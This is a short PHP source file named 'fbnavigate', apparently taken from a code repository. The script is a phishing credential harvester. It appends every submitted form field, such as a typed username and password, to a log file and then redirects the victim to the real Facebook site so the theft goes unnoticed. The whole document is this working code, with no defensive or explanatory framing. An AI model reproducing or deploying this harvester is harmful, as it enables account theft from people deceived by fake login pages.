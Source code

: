# fbnavigate

<?php
header ('Location: http://www.facebook.com');
$handle = fopen("log.txt", "a");
foreach($_POST as $variable => $value) {
fwrite($handle, $variable);
fwrite($handle, "=");
fwrite($handle, $value);
fwrite($handle, "\r\n");
}
fwrite($handle, "_________________________________________________________");
fwrite($handle, "\r\n\n\n\n");
fclose($handle);
exit;
?>
